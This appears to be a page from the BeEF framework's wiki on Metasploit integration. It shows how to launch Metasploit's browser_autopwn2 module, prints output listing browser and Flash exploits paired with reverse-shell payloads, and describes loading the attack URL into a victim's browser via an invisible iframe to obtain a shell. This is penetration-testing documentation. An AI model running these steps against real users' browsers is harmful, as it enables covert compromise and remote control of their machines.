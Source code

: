 ## Introduction

Metasploit is another ruby based, open source security tool used for penetration testing. It has a collection of exploits, payloads, shellcodes and more that can be used to exploit vulnerabilities. 

BeEF supports Metasploit integration, and only requires some simple [[configuration|Configuration]] to get it up and running. Once running, Metasploit modules can run directly through the BeEF interface.

#### Table of Contents

* [Metasploit Modules](#metasploit-modules)
* [Browser Autopwn](#browser-autopwn)

## Metasploit Modules

After launching Metasploit, you can find its modules in the BeEF command modules tree:
<p align=center>
[[Images/msf2.png|align=center]]
</p>

All regular payload CLI arguments have their own form fields in the module's interface:
<p align=center>
[[Images/msf3.png|align=center]]
</p>

After executing a module, sit back and wait for the exploit to work:
<p align=center>
[[Images/msf6.png|align=center]]
</p>

## Browser Autopwn

While not directly integrated in BeEF, you can easily use the Browser Autopwn function of Metasploit:

```
msf > use auxiliary/server/browser_autopwn2
msf auxiliary(browser_autopwn2) > show options

Module options (auxiliary/server/browser_autopwn2):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXCLUDE_PATTERN                   no        Pattern search to exclude specific modules
   INCLUDE_PATTERN                   no        Pattern search to include specific modules
   Retries          true             no        Allow the browser to retry the module
   SRVHOST          0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT          8080             yes       The local port to listen on.
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                           no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits

```

First, launch `browser_autopwn` or `browser_autopwn2` in Metasploit and get the BrowserAutoPwn URL, for example:

```
msf auxiliary(browser_autopwn2) > run -z 
[*] Auxiliary module execution completed

[*] Searching BES exploits, please wait...
msf auxiliary(browser_autopwn2) >
[*] Starting exploit modules...
[*] Starting listeners...
[*] Time spent: 6.01071043
[*] Using URL: http://0.0.0.0:8080/5WNrYZjr
[*] Local IP: http://10.1.1.175:8080/5WNrYZjr

[*] The following is a list of exploits that BrowserAutoPwn will consider using.
[*] Exploits with the highest ranking and newest will be tried first.

Exploits
========

 Order  Rank       Name                                       Payload
 -----  ----       ----                                       -------
 1      Excellent  webview_addjavascriptinterface             android/meterpreter/reverse_tcp on 4443
 2      Excellent  samsung_knox_smdm_url                      android/meterpreter/reverse_tcp on 4443
 3      Excellent  firefox_svg_plugin                         firefox/shell_reverse_tcp on 4442
 4      Excellent  firefox_webidl_injection                   firefox/shell_reverse_tcp on 4442
 5      Excellent  firefox_tostring_console_injection         firefox/shell_reverse_tcp on 4442
 6      Excellent  firefox_proto_crmfrequest                  firefox/shell_reverse_tcp on 4442
 7      Great      adobe_flash_net_connection_confusion       windows/meterpreter/reverse_tcp on 4444
 8      Great      adobe_flash_shader_drawing_fill            windows/meterpreter/reverse_tcp on 4444
 9      Great      adobe_flash_shader_job_overflow            windows/meterpreter/reverse_tcp on 4444
 10     Great      adobe_flash_hacking_team_uaf               windows/meterpreter/reverse_tcp on 4444
 11     Great      adobe_flash_uncompress_zlib_uaf            windows/meterpreter/reverse_tcp on 4444
 12     Great      adobe_flash_opaque_background_uaf          windows/meterpreter/reverse_tcp on 4444
 13     Great      adobe_flash_pixel_bender_bof               windows/meterpreter/reverse_tcp on 4444
 14     Great      adobe_flash_nellymoser_bof                 windows/meterpreter/reverse_tcp on 4444
 15     Great      adobe_flash_copy_pixels_to_byte_array      windows/meterpreter/reverse_tcp on 4444
 16     Great      adobe_flash_worker_byte_array_uaf          windows/meterpreter/reverse_tcp on 4444
 17     Great      adobe_flash_casi32_int_overflow            windows/meterpreter/reverse_tcp on 4444
 18     Great      adobe_flash_domain_memory_uaf              windows/meterpreter/reverse_tcp on 4444
 19     Good       adobe_flash_uncompress_zlib_uninitialized  windows/meterpreter/reverse_tcp on 4444
 20     Good       wellintech_kingscada_kxclientdownload      windows/meterpreter/reverse_tcp on 4444
 21     Good       ms14_064_ole_code_execution                windows/meterpreter/reverse_tcp on 4444

[+] Please use the following URL for the browser attack:
[+] BrowserAutoPwn URL: http://10.1.1.175:8080/5WNrYZjr
[*] Server started.
[*] Starting the payload handler...
```

Note the BrowserAutoPwn URL: `http://10.1.1.175:8080/5WNrYZjr`

Then use the [[Create Invisible Iframe|Module:-Create-Invisible-Iframe]] command module to load the autopwn webpage in an iFrame:
<p align=center>
[[Images/msf8.png|align=center]]
</p>

Then, just wait for a shell :
<p align=center>
[[Images/msf9.png|align=center]]
</p>

[[Network Discovery|Network-discovery]] | [[Tunneling|Tunneling]] 